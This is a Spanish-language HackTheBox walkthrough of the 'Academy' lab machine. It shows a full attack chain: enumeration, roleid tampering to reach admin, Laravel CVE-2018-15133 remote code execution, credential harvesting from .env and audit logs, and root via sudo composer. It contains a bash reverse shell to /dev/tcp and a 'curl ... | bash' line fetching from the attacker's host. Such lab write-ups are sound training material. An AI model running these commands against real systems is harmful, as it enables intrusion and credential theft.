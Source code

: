 ```yaml
---
title: HackTheBox - Academy
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, Laravel]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Academy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Academy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Academy`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/Academy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p21,80,33060 -sCV <IP> -oN versiones`**

    ```
    <SNIP>
    http-title: Did not follow redirect to http://academy.htb/
    <SNIP>
    ```

    * Tenemos un dominio, el cual debemos guardar en el archivo **`/etc/hosts`**  para indicar que la **IP de la Máquina** resuelva a **`http://academy.htb/`**

        ```
        <IP>    academy.htb
        ```

c. Si vistamos el servicio web, vemos que nos podemos **`Registrar`** o **`Loguear`**, por lo que enumeraremos por más archivos **`.php`** que puedan existir

```pl
wfuzz -c -t 10 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://academy.htb/FUZZ.php
```

```
000000256:   200        141 L    227 W      2633 Ch     "admin"
```

d. Si capturamos la petición de **`registrar`** con **`Burp Suite`** veremos que se envía un **`roleid`** con valor de `0` por default

* **`uid=test&password=test&confirm=test&roleid=0`**

    * Lo que haremos es cambiarlo **`1,2,3,etc`** para ver si la cuenta registrada cambia de privilegios o es válida en **`/admin.php`** 

    * El **`roleid`** válido es `1`

e. Nos autenticamos en **`/admin.php`** y veremos un subdominio, también lo agregamos al **`/etc/hosts`**

![](/assets/images/Machines/Academy/02-subdomain.png)


f. Si visitamos el nuevo subdominio, veremos un error de Laravel, del cual podemos extraer la **`APP_KEY`** (Variable de configuración utilizada para mantener segura la información sensible, como las sesiones, las cookies y otras características de seguridad)

1. [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133) y [phpgcc](https://github.com/ambionics/phpggc)

2. El escnario será el siguiente: 
    * Crearemos con **`phpgcc`** una comando encodeado que realice una petición una archivo que estará hosteado en una **`Máquina Atacante`** (**`index.html`**)

        ```html
        #!/bin/bash
        bash -i >& /dev/tcp/<tun0 IP>/443 0>&1
        ```

        * **`python3 -m http.server 8000`**

    * Nos ponemo en escucha con **`nc -lvnp 443`**

    * El comando encodeado será **`curl -s -X GET http://<tun0 ip>:8000/index.html | bash`**, lo que haremos es cargar el contenido del archivo **`index.html` de nuestra Máquina** y lo interpretaremos con **`bash`**

        ```bash
        ./phpggc Laravel/RCE1 system 'curl -s -X GET http://10.10.14.115:8000/index.html | bash' -b
        ```

    * Ejecutamos el exploit

        ```bash
        ./cve-2018-15133.php <APP_KEY> <OUTPUT phpgcc>
        ```

     * El **output** del exploit lo tramitamos como cabecera en un petición por **post** a **`http://dev-staging-01.academy.htb/`**

        ```bash
        curl -s -X POST http://dev-staging-01.academy.htb/ -H "X-XSRF-TOKEN: eyJpdiI6ImFWSWpQRDZKXC8xaVpyYzZW<SNIP>="
        ```

        ```bash
        nc -lvnp 443
        www-data@academy:/var/www/html/htb-academy-dev-01/public$
        ```

### Escalada de Privilegios 💹

a. Listamos los archivos **`.env`** (Aquí se almacenan credenciales de bases de datos u otra aplicación) de los proyectos **`academy htb-academy-dev-01`**

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
    
b. Vemos que existen varios usuarios **`21y4d, ch4p, cry0l1t3, egre55, g0blin, mrb3n`**, el usuario con la contraseña **`mySup3rP4s5w0rd!!`** es **`cry0l1t3`**

```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:/var/www/html$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

* Grupo **`adm`:** Podemos ver archivos de **`logs`**

c. Vemos que podemos listar el contenido de **`/var/log/audit`** (Aquí se almacenan logs de inicio de sesión de usuarios, cambios de permisos, etc)

* En este directorio filtraremos por líneas que contengan los nombres de los usuarios del sistema

    ```bash
    cry0l1t3@academy:/var/log/audit$ grep -r -i "mrb3n" *
    ```

d. Analizaremos en busca de lo siguiente en todos los archivos **`audit.log`**

* **`type=TTY`**: Relacionado con una terminal de tipo "TTY".


* **`tty pid=<N> uid=<N> auid=<N> ses=<N>`**: Estos campos registran información sobre el proceso (pid), el ID de usuario (uid), el ID de usuario auditado (auid) y la sesión (ses) asociada con el evento. 

* **`comm="[Comando]"`**: Este campo muestra el nombre del comando o programa que se estaba ejecutando cuando se registró el evento.

* **`data=[Data Hexadecimal]`**: Esta es la parte más interesante del registro y es específica del evento en sí.

    📇 En ocasiones tenemos que ejecutar dos veces seguidas este comando.

    ```
    grep -r "mrb3n" -C 10 | grep -i "tty" | grep "data" | awk '{print $11}' | tr -d "data=" | xxd -ps -r
    ```

    ```
    <SNIP>
    mrb3n_Ac@d3my!
    <SNIP>
    ```

e. Pasamos al usuario **`mrb3n`** con la credenciale reciente y listamos por privilegios que tengamos en el archivo **`sudoers`**

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

f. Vamos a [GTFObins](https://gtfobins.github.io/) y buscamos una forma de escalar privilegios con este permiso asignado.

* Por último, ya como **`root`** leemos las **`flags`**

    ```bash
    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name user.txt 2>/dev/null  | xargs cat
    b4fb4ebd4e45397059048b75d2572658

    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name root.txt 2>/dev/null  | xargs cat
    b031b75fe05537f90812f247d5de1177
    ```